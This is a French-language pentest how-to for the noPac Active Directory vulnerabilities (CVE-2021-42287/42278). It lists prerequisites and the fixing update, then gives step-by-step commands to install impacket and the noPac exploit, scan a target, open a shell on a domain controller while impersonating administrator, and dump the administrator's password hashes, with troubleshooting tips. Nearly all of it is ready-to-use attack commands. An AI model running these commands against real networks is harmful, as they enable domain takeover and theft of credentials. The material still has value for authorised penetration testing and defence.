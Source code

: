 ```yaml
---
public: true # set to true to make the article publishable
---
```


|  |  |
| --- | --- |
| CVE | [2021-42287](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287) et  [2021-42278](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278) |
| Correctif fixant la vulnérabilité | CU 2021-11 |

## Eléments nécessaires à l'exploitation

- MAJ Windows appliquées inférieures à 2021-11
-  `ms-DS-MachineAccountQuota` doit être supérieur à 0 pour nous permettre de créer un compte d'ordinateur

## Exploitation

### Installation de l'outil
```shell
# installer impacket
git clone https://github.com/SecureAuthCorp/impacket.git
python setup.py install 
# cloner le dépot de l'exploit
git clone https://github.com/Ridter/noPac.git

```

### Lancement du scanner pour vérifier si la cible est vulnérable

```shell
sudo python3 scanner.py $AD_DOMAIN/$AD_USER:$AD_PASSWORD -dc-ip $TARGET_IP -use-ldap
```

### Obtention d'un shell sur le controlleur de domaine

```shell
sudo python3 noPac.py $AD_DOMAIN/$AD_USER:$AD_PASSWORD -dc-ip $TARGET_IP   -dc-host $DC_HOSTNAME -shell --impersonate administrator -use-ldap
```

On pourra utiliser différents shells à l'aide des paramètres suivants :

```shell
-exec-method smbexec
-exec-method wmiexec
-exec-method mmcexec
```

**Message d'erreur possible** : 

```shell
[-] Pls use full domain name, such as: domain.com/username
```

Ce message apparaît si le nom du domaine saisit n'est pas écrit en majuscule apparemment (pas eu le temps de chercher la cause de ce problème)

### Dump de Hash

**Attention aux subtilités**
- noPac.py prend en premier paramètre les identifiants d'un utilisateurs du domaine préfixés par **le nom de domaine DNS**
- a l'inverse, le paramètre -just-dc-user ne retourne un résultat que si on préfixe l'utilisateur par le nom de domaine **NETBIOS**
```shell
sudo python noPac.py DOMAIN.DNS.LOCAL/$AD_USER:$AD_PASSWORD -dc-ip $TARGET_IP  -dc-host domainControllerHostname  --impersonate administrator  -dump -just-dc-user NETBIOS_DOMAIN/administrator -just-dc
```